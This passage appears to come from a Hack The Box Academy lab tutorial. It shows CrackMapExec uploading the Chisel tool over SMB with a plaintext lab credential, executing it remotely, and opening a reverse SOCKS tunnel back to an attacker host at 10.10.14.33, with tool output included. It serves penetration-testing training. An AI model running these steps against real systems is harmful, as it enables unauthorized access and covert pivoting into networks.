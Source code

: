 2. Download and Upload Chisel for Windows to the Target Host:

### **Upload Chisel**

```shell-session
al1abb@htb[/htb]$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz -O chisel.exe.gz -q
al1abb@htb[/htb]$ gunzip -d chisel.exe.gz
al1abb@htb[/htb]$ crackmapexec smb 10.129.204.133 -u grace -p Inlanefreight01! --put-file ./chisel.exe \\Windows\\Temp\\chisel.exe 

SMB         10.129.204.133  445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:inlanefreight.htb) (signing:False) (SMBv1:False)
SMB         10.129.204.133  445    MS01             [+] inlanefreight.htb\grace:Inlanefreight01! (Pwn3d!)
SMB         10.129.204.133  445    MS01             [*] Copy ./chisel.exe to \Windows\Temp\chisel.exe
SMB         10.129.204.133  445    MS01             [+] Created file ./chisel.exe on \\C$\\Windows\Temp\chisel.exe
```

3. Execute `chisel.exe` to connect to our Chisel server using the CrackMapExec command execution option `-x` (We will discuss this option more in the [Command Execution](https://academy.hackthebox.com/module/84/section/812) section)

### **Connect to the Chisel Server**

```shell-session
$ crackmapexec smb 10.129.204.133 -u grace -p Inlanefreight01! -x "C:\Windows\Temp\chisel.exe client 10.10.14.33:8080 R:socks"

SMB         10.129.204.133  445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:inlanefreight.htb) (signing:False) (SMBv1:False)
SMB         10.129.204.133  445    MS01             [+] inlanefreight.htb\grace:Inlanefreight01! (Pwn3d!)
```

The command in this terminal will finish once we stop the Chisel process in the target machine. We will do this later in this section.

In our attack host, we should notice a new line on the Chisel server indicating that we received a connection from a client and initiated our tunnel.

### **Chisel Receiving Session No. 1**

```shell-session
$ ./chisel server --reverse 

<SNIP>

2022/11/06 10:57:54 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

We can also confirm the tunnel is running by checking if port TCP 1080 is listening:
